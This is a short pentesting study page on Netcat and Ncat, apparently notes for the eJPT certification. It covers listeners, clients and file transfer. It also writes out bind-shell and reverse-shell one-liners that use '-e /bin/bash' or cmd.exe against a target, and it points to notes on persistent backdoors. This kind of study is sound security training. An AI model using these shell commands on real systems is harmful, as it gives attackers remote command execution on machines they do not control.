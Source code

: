 ```yaml
---
description: nc(Netcat) & Ncat tips and tricks for PenTesters.
---
```


# 👂Netcat

> &#x20;**Ncat is a modern reinvention of Netcat**. Ncat includes several features not available in Hobbit's original version of the tool. ... For example, while the traditional Netcat has a simple port scanning feature, Ncat lacks that feature because Nmap can be used more effectively for that purpose.

## Ncat vs Netcat:

Here are some key new features available in Ncat but absent in Netcat:

* Connection brokering
* Proxy connections
* SSL support
* IPv6 support
* Possibility to chain Ncat’s together

## Netcat (nc)

Used to conn. to an HTTP server to enumerate/attack HTTP methods

{% content-ref url="../pentesting/ejpt/web-attacks.md" %}
[web-attacks.md](../pentesting/ejpt/web-attacks.md)
{% endcontent-ref %}

1-Starting a listener(server):

```
nc -lvp <port>
```

2-Starting a client:

```
nc -v <Listner_ip> <port>
```

> \-v: verbos

{% hint style="info" %}
\-u: added to both server/client to start a UDP session.

`>output.txt`: for server to save a file.

`echo "msg" |`: for client to send & close conn. immediately. (or cat a file to send it)
{% endhint %}

#### Get a shell after hacking in device(Bind shell):

```bash
nc -lvp <port> -e /bin/bash
```

> \-e: excute a programe (cmd.exe for windows).t
>
> then in the attacker computer starta client.

## Ncat

For example, we can have a connection (Target is listening and waiting for the Attacker).

in Target/Victim Machine:

```
ncat -l -p <port> -e <prog>
```

> \-l: to listen.
>
> \-p: choose an open port on Target mahcine.
>
> \-e: programe to excute (Win: cmd.exe Unix: /bin/bash).&#x20;

in Attacker Machine:

```
ncat <target_ip> <target_port>
```

### Reverse Conn:

helpful when the attack is over WAN (here Attacker has the listener):

Attacker Machine:

```
ncat -l -p <open_port> -v
```

> \-p: open port (pay attaention for Egress firewall in the Target Network).
>
> \-v: give us verbose info.

Target Machine:

```
ncat -e <prog_exec> <target_IP> <target_port>
```

> \-e: programe to excute (Win: cmd.exe Unix: /bin/bash).&#x20;
>
> \-p: same port the attacker is listening in.

### Persistence achieved with a Backdoor:

go check the [#persistent-backdoor](../pentesting/ejpt/system-attacks.md#persistent-backdoor "mention") page in ⚙ Sys Attacks for steps in Win machines.
